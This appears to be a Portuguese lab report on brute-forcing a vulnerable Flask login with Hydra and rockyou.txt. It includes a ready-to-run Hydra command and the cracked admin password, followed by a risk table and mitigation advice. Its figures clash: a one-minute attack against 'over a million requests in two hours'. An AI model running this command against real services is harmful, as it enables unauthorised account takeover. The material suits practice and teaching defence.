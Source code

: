 # Relatório de Ataque de Força Bruta com RockYou - Kali Linux

**Ferramenta utilizada:** Hydra  
**Alvo:** Servidor Flask vulnerável  
**IP do alvo:** `192.168.x.x` (substitua pelo IP real)  
**Porta:** `5000`  
**Wordlist:** `rockyou.txt`  

## Passo a Passo Executado

### 1. Preparação do Ambiente
- **Sistema:** Kali Linux 2023.4  
- **Wordlist:**  
  ```bash
  # Descompactei o rockyou.txt (se necessário)
  sudo gunzip /usr/share/wordlists/rockyou.txt.gz

Comando Hydra Executado
bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.x.x http-post-form "/:username=^USER^&password=^PASS^:Login falhou" -V -t 4
 
Resultados Obtidos
Senha quebrada: admin: 123456 

Tempo de ataque: 1 minuto

Fator,	Risco,	Explicação:

Senha comum,	Crítico,	Presente no top 0.1% do rockyou.txt
Sem rate limiting,	Alto,	Servidor permitiu >1M requisições em 2 horas
Protocolo HTTP,	Médio,	Credenciais trafegadas em texto claro

 Recomendações de Mitigação
Bloqueio progressivo após 5 tentativas falhas

Trocar para HTTPS com certificado SSL

Monitorar logs para detectar padrões de ataque

Implementar 2FA para contas privilegiadas

 O rockyou.txt contém 14 milhões de senhas reais vazadas. Senhas como "senha123" são encontradas rapidamente.
